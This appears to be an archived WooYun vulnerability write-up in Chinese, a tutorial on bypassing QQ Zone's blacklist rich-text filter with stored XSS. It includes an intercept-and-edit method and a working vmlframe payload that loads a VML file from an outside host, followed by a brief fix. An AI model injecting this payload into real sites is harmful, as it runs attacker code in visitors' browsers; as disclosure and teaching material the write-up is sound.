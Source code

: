# 20\. 存储型 XSS 入门 [套现绕过富文本]

# 20\. 存储型 XSS 入门 [套现绕过富文本]

> 来源：[20\. 存储型 XSS 入门 [套现绕过富文本]](http://www.wooyun.org/bugs/wooyun-2010-016779)

## 简要描述

很多应用含有富文本内容，这类应用最典型的特征是具有编辑器，例如：博客日志，邮箱等。这类应用往往允许使用一定的 HTML 代码。 为了在用户体验和安全之间寻找平衡，各种厂商可能采用了不尽相同的办法。但是总体来说，有 2 类。

第 1 类我们称为白名单，即：只允许使用白名单内的合法 HTML 标签，例如 IMG。其它均剔除。例如：百度贴吧回帖时候的代码过滤方 式。

第 2 类我们称为黑名单，即：厂商会构建一个有危害的 HTML 标签、属性列表，然后通过分析用户提交的 HTML 代码，剔除其中有害的部 分。 如：QQ 邮箱的发邮件时的过滤方式。

白名单要安全得多，而黑名单的方式则经常会被绕过。

绕过的技巧也有很多，我们可以从最没技术含量的开始说起!! 本节将以 QQ 空间/QQ 校友的日志功能为例来说明，什么是“套现绕过富 文本”！

注意：本节说的“套现”，不是与“钱”有关的；在这里的含义是：“套用现成的 XSS 代码”。

## 详细说明

1\. 新手平时测试 XSS 时，经常会用到`<script>alert(1)</script>`到处插入，看效果。

2\. 这种做法，在某些反射型 XSS，或者你运气好的时候，确实能碰到。但是如果拿到 QQ 空间日志里去插入。嗯，后果一定会很悲壮， 被过滤的毛都没有了。。

3\. 这是为什么呢？因为`<script>`在腾讯的黑名单中，被过滤是理所当然的。

4\. 试想，如果我们找到一个不在腾讯黑名单中的 XSS 代码，岂不是就可以成功在日志里执行 XSS 了么？

5\. 有的人会问了。。哪里去找啊?? 方法有 2 种：

5.1 你足够牛，自己去发现。

5.2 已经有大牛为我们准备了很好的资料，去里面翻。

6\. 我不够牛，所以我只能去大牛的资料里翻咯。

这里我翻的是 @sogili 维护的 [`html5sec.org/`](http://html5sec.org/) ，里面有很多哦

![image](img/Image_109.jpg)

7\. 然后我就开始按照下面的流程慢慢测试。

先进 QQ 空间，发表一个日志，然后编辑日志，同时抓包。

![image](img/Image_110.jpg)

修改抓包内容后，这里修改的是日志内容。提交修改后的数据包！ 然后我们来看看日志里的源代码里，我们提交的 XSS 代码是否被过滤。

![image](img/Image_111.jpg)

8\. 这里我们就不说失败的了，直接说成功的部分。

我们提交以下代码：

```
<vmlframe  style="behavior:url(#default#vml);position:absolute;width:100%;height:100%" src="http://itsokla.duapp.com/shouzi.vml#xss"></vmlframe> 
```

然后看看源代码的输出：

![image](img/Image_112.jpg)

可以看到，这个 XSS 代码完全没过滤。

9\. 我们可以看到 XSS 的效果。鼠标移到日志上，即会触发 XSS 代码。

![image](img/Image_113.jpg)

10.1 使用代码前，先自己在本地试下，是否能执行！搞清楚你所使用的 XSS 代码的原理是什么！

10.2 搞清楚 XSS 代码的适用范围：如：在什么浏览器的什么版本之下才能使用，是否需要用户交互等。

10.3 注意平时对此类代码的搜集与整理。

## 修复方案

过滤 behavior, 和你们修复邮箱里相同问题的方法一样即可。